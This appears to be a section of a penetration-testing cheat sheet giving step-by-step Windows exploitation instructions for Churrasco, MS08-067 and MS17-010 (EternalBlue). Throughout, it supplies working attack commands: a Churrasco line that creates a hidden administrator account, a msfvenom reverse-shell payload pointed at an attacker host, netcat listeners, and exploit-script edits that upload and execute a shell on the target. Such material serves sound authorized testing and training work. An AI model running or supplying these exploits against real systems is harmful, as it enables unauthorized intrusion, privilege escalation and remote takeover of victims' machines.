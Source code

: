
---

## Exploitation

This section details common Windows exploits used during penetration testing, including setup instructions, requirements, and execution steps.

### Windows Exploits

#### Churrasco
**Description**: Exploits token impersonation for privilege escalation on Windows Server 2003 and IIS 6.0.

**Steps**:
1. Download: `https://github.com/Re4son/Churrasco/raw/master/churrasco.exe`
2. Upload `churrasco.exe` to the target.
3. Set up a listener (e.g., Netcat: `nc -lvnp <port>`).
4. Execute:
   ```bash
   churrasco.exe -d "net user evil Ev!lpass /add && net localgroup administrators evil /add"
   ```

**Requirements**: Listener on the attacking machine.

#### MS08-067
**Description**: Exploits a vulnerability in the Server service, allowing remote code execution on Windows XP and Server 2003.

**Steps**:
1. Clone the exploit: `git clone https://github.com/andyacer/ms08_067.git`
2. Install dependencies: `pip install impacket`
3. Configure the exploit:
   - Identify the target OS and language.
   - Choose a reverse shell option (e.g., port 443 or default).
4. Set up a listener.
5. Run the exploit and select the appropriate menu option.

**Requirements**: Listener on the attacking machine.

#### MS17-010 (EternalBlue)
**Description**: Exploits SMBv1 vulnerabilities, affecting Windows XP to Server 2016.

**Steps**:
1. Clone the exploit: `git clone https://github.com/worawit/MS17-010.git`
2. For `zzz_exploit.py`:
   - Modify the script to include:
     ```python
     smb_send_file(smbConn, '/root/htb/blue/puckieshell443.exe', 'C', '/puckieshell443.exe')
     service_exec(conn, r'cmd /c c:\\puckieshell443.exe')
     ```
   - Generate a custom payload:
     ```bash
     msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f exe > shell.exe
     ```
   - Set up a listener.
   - Execute the exploit.
3. For `eternalblue_exploit7.py`:
   - Merge binaries and payload using: `https://github.com/nickvourd/eternalblue_win7_auto_gen`
   - Run:
     ```bash
     python MS17-010/eternalblue_exploit7.py <ip> /tmp/sc_x<arch>.bin
     ```
   - Set up a listener.
